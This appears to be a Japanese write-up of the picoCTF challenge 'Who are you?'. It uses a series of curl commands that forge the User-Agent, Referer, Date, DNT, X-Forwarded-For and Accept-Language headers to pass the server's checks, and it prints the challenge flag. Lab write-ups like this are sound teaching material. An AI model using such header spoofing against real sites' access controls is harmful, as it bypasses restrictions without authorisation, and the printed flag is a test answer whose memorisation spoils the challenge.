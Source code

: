 # Who are you?

AUTHOR: MADSTACKS

## Description

Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn

Only people who use the official PicoBrowser are allowed on this site!

ヒント
> It ain't much, but it's an RFC https://tools.ietf.org/html/rfc2616

## writeup

`PicoBrwoser`ということで，User-Agentを指定してみる．

```bash
 % curl -A "PicoBrowser" http://mercury.picoctf.net:39114/
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Who are you?</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>


</head>

<body>

    <div class="container">
      <div class="jumbotron">
        <p class="lead"></p>
                <div class="row">
                        <div class="col-xs-12 col-sm-12 col-md-12">
                                <h3 style="color:red">I don&#39;t trust users visiting from another site.</h3>
                        </div>
                </div>
                <br/>

                        <img src="/static/who_r_u.gif"></img>

        </div>
    <footer class="footer">
        <p>&copy; PicoCTF</p>
    </footer>

</div>
<script>
$(document).ready(function(){
    $(".close").click(function(){
        $("myAlert").alert("close");
    });
});
</script>
</body>

</html>% 
```

次は`I don't trust users visiting from another site.`
ときたため，refererで同じサイトから来たことを知らせます．

```bash
curl -A "PicoBrowser" http://mercury.picoctf.net:39114/ --referer http://mercury.picoctf.net:39114/
...
<h3 style="color:red">Sorry, this site only worked in 2018.</h3>
...
```

時間をずらす必要がありそうです．HTTP headerに`Date`属性を付与してみます．

```bash
curl -A "PicoBrowser" http://mercury.picoctf.net:39114/ --referer http://mercury.picoctf.net:39114/ -H "Date: Wed, 21 Oct 2018 07:28:00 GMT"
...
<h3 style="color:red">I don&#39;t trust users who can be tracked.</h3>
...
```

トラッキングがONになっていることが原因だということでOFFにします．

```bash
curl -A "PicoBrowser" http://mercury.picoctf.net:39114/ --referer http://mercury.picoctf.net:39114/ -H "Date: Wed, 21 Oct 2018 07:28:00 GMT" -H "DNT: 1"
...
<h3 style="color:red">This website is only for people from Sweden.</h3>
...
```

スウェーデンのIPアドレスのrangeを調べます．
送信元IPアドレスを付与する場合は`X-Forwarded-For`を使います([参考](X-Forwarded-For))

```bash
curl -A "PicoBrowser" http://mercury.picoctf.net:39114/ --referer http://mercury.picoctf.net:39114/ -H "Date: Wed, 21 Oct 2018 07:28:00 GMT" -H "DNT: 1" -H "X-Forwarded-For: 23.92.112.1" 
...
<h3 style="color:red">You&#39;re in Sweden but you don&#39;t speak Swedish?</h3>
h3>
...
```

言語設定をスウェーデン語にします([参考1](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Accept-Language), [参考2](https://www.w3.org/International/ms-lang.html))．

```bash
curl -A "PicoBrowser" http://mercury.picoctf.net:39114/ --referer http://mercury.picoctf.net:39114/ -H "Date: Wed, 21 Oct 2018 07:28:00 GMT" -H "DNT: 1" -H "X-Forwarded-For: 23.92.112.1" -H "Accept-Language:sv"
...
<div class="container">
      <div class="jumbotron">
        <p class="lead"></p>
                <div class="row">
                        <div class="col-xs-12 col-sm-12 col-md-12">
                                <h3 style="color:green">What can I say except, you are welcome</h3>
                        </div>
                </div>
                <br/>

                        <b>picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_20ace0e4}</b>

        </div>
    <footer class="footer">
        <p>&copy; PicoCTF</p>
    </footer>

</div>

...
```

## FLAG

```bash
picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_20ace0e4}
```

## 参考

- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Date
- https://recruit.gmo.jp/engineer/jisedai/blog/do-not-trackdnt%E3%81%AB%E3%81%A4%E3%81%84%E3%81%A6/
- https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/X-Forwarded-For